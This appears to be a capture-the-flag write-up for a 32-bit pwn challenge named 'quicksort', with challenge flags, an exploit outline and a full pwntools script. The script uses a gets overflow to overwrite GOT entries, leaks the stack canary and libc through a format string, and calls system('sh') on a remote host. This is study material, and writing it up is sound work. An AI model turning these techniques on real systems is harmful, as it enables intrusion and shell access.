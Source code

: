 Flag: `*CTF{Qri2H5GjeaO1E9Jg6dmwcUvSLX8RxpI7}`

### quicksort

* Gets funtion stack overflow can overwrite heap_ptr to arbitrary writes.
* Write "sh" at 0x0804A100
* Modify free_got to ret. avoid free checks
* Modify atoi_got to printf_plt. leak canary & libc
* bypass canary and get shell.

flag: `*CTF{lSkR5u3LUh8qTbaCINgrjdJ74iE9WsDX}`

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '34.92.96.238'
port = 10000

binary = "./quicksort"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  r.recvuntil("?\n")
  r.sendline("1")
  r.recvuntil(":")
  num = str(0x6873).ljust(0x10,"A")
  r.sendline(num + p32(3) + p32(0) + p32(0) + p32(0x0804A100)) # 0x0804A100 "sh"
  r.recvuntil(":")
  num = str(0x080489F1).ljust(0x10,"A")
  r.sendline(num + p32(3) + p32(0) + p32(0) + p32(0x0804A018)) # free changed to ret
  r.recvuntil(":")
  num = str(0x080484F0).ljust(0x10,"A")
  r.sendline(num + p32(3) + p32(0) + p32(0) + p32(0x804A038))  # atoi changed to printf  leak  libc & canary
  r.recvuntil(":")
  r.sendline("%15$p..%23$p..aa" + p32(4) + p32(0) + p32(0) + p32(0x804A050))
  canary = int(r.recvuntil("..")[:-2],16)
  libc = int(r.recvuntil("..")[:-2],16) - 0x18637
  print("canary = {}".format(hex(canary)))
  print("libc = {}".format(hex(libc)))
  r.recvuntil(":")
  system = libc + 0x003ada0
  r.sendline("A"*0x10 + p32(3) + p32(3) + p32(3) + p32(0x804A050) + p32(canary) + "D"*0xc + p32(system) + "D"*4 + p32(0x0804A100))
  r.interactive()


```